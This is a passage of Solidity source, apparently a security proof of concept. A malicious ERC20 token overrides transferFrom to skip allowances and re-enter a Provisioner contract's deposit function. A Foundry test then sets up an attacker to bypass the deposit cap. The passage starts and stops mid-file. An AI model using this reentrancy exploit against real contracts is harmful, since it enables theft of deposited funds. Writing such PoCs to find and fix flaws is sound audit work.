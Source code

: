 ```solidity
    }
}

contract ReentrantToken is ERC20 {
    Provisioner public prov;
    IERC20 public self;
    address public attacker;
    bool internal reentered;

    constructor() ERC20("Reentoken", "REENTR") {
        self = IERC20(address(this));
    }
    function setEnv(Provisioner p, address a) external { prov = p; attacker = a; }
    function mint(address to, uint256 amt) external { _mint(to, amt); }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        // allow transfer without allowance for simplicity in PoC
        _update(from, to, amount);

        // Reenter once during the first deposit's transferFrom
        if (!reentered && from == attacker) {
            reentered = true;
            // trigger a second deposit of same size; both will pass pre-mint cap check
            prov.deposit(self, amount, 1);
        }
        return true;
    }
}

contract CapBypassTest is Test {
    Provisioner prov;
    TestVault vault;
    MockCalculator calc;
    ReentrantToken token;
    address attacker = address(0xA11CE);

    function setUp() public {
        calc = new MockCalculator();
        vault = new TestVault();
        prov = new Provisioner(calc, address(vault), address(this), Authority(address(0)));
        vault.setProvisioner(address(prov));

        // depositCap = 100 units; refund timeout arbitrary
        prov.setDepositDetails(100, 1);

        // enable sync deposits for token at 1:1 multiplier
        token = new ReentrantToken();
        token.setEnv(prov, attacker);
        Provisioner.TokenDetails memory details = Provisioner.TokenDetails({
            asyncDepositEnabled:false,
            asyncRedeemEnabled:false,
            syncDepositEnabled:true,
            depositMultiplier:10000,
            redeemMultiplier:10000
        });
        prov.setTokenDetails(IERC20(address(token)), details);

        // fund attacker and approve provisioner to pull in requestDeposit paths if needed
        token.mint(attacker, 200);
        vm.prank(attacker);
        token.approve(address(vault), type(uint256).max); // not strictly needed as our transferFrom ignores allowance
```